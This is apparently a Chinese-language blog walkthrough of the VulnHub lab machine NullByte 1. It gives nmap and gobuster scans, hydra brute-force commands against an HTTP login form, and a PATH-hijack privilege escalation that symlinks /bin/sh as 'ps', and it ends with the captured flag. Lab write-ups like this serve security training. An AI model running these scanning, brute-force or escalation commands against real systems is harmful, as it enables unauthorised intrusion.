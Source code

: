 +++
ShowToc = true
TocOpen = true
title = '0x001 NullByte 1'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'vulnhub'
+++



# IP发现&端口扫描

```
sudo nmap -Pn -sS -p- --min-rate 10000 192.168.154.0/24
```

![](/vulnhub_img/WEBRESOURCE51a6e0215fb9c3cebfcf5ca850a3aabd截图.png)

```
sudo nmap -Pn -sV -p 80,111,777,42557 --min-rate 10000 192.168.154.129
```

![](/vulnhub_img/WEBRESOURCE1440a52bba0d13119375a35bb5d91007截图.png)

# 目录扫描

```
gobuster dir -u http://192.168.154.129/ -w /usr/share/wordlists/dirb/common.txt
```

![](/vulnhub_img/WEBRESOURCEb1eb9f90b824cdd50b178a4e85082979截图.png)

# 发现隐藏信息的图片，有路径

```
命令：exiftool main.gif
```

# 根据提示进行爆破，hydra http 爆破

示例：

解释表单参数，“路径:用户名:密码:F=错误返回”

```text
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^password=^PASS^:F=Invalid" -t 64
```

抓包看提交参数，这里经过摸索，使用-e n 参数来只爆破用户名

完整命令如下：

```
hydra -L /usr/share/wordlists/rockyou.txt -e n 192.168.154.129 http-post-form "/kzMb5nVYJw/index.php:key=^USER^:F=invalid" -t 60
```

获得账号：elite

![](/vulnhub_img/WEBRESOURCE685e129e46e63fad64e61d8f8010a2a2截图.png)

# SQL注入

![](/vulnhub_img/WEBRESOURCEcbc84a3ac2d9f43525d3ace151bdd022截图.png)

# 破解hash，Base64解码一下

![](/vulnhub_img/WEBRESOURCEa7afcc6b8b1e2bda6028950386326cd4截图.png)

# 翻查敏感信息

修复文件?

![](/vulnhub_img/WEBRESOURCE98de53f7ca8b73524c3345126a406676截图.png)

数据库密码登录失败：

![](/vulnhub_img/WEBRESOURCE2a2c03696ff2aa3548238b913ef2d433截图.png)

修复方式不清楚，看了WP，history内有提示：

![](/vulnhub_img/WEBRESOURCEe862cd1dc166a4359be8616e2e2b3e81截图.png)

运行：

![](/vulnhub_img/WEBRESOURCEab46364737416c405c67e5b628016630截图.png)

# 提权

```
ln -s /bin/sh ps
export PATH=.:$PATH
```

flag:adf11c7a9e6523e630aaf3b9b7acb51d

![](/vulnhub_img/WEBRESOURCEd2db86749c1054315bab21a61de0f601截图.png)


